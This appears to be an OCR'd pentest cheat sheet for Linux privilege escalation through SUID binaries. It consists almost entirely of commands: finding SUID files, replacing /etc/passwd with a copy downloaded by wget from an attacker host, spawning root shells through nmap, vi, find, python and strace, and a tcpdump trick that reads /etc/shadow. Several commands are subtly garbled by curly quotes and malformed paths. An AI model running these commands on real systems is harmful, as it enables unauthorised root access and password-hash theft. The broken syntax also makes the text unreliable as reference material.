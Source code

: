 ```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

### Exploitation SUID
Cp
```bash
$cp /etc/passwd /var/www/html
#Change pass or add new user to /var/www/html
#(python3 -> import crypt -> crypt.crypt(‘newpass’))
$python -m http.server 80
$cd /tmp
$wget //$IP/passwd
$cp passwd /etc/passwd
```
Nmap
```bash
$ nmap --interactive
nmap> !sh
```
```bash
#Another way below (if nmap doesn’t have interactive mode):
$ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse
$ sudo nmap --script=/tmp/shell.nse
```
Vi
```bash
$ vi
:!sh
```
Find
```bash
$ find / home -exec sh -i \;
```
```bash
#Or exec any command:
$touch file
$find file -exec "whoami" \;
```
Python
```bash
$ python -c ‘import pty;pty.spawn(“/bin/sh”)’
```
Strace
```bash
$ strace -o /dev/null /bin/sh
```
Tcpdump
```bash
$ echo $’id\ncat /etc/shadow’ > /tmp/.shell
$ chmod +x /tmp/.shell
$ tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root
```
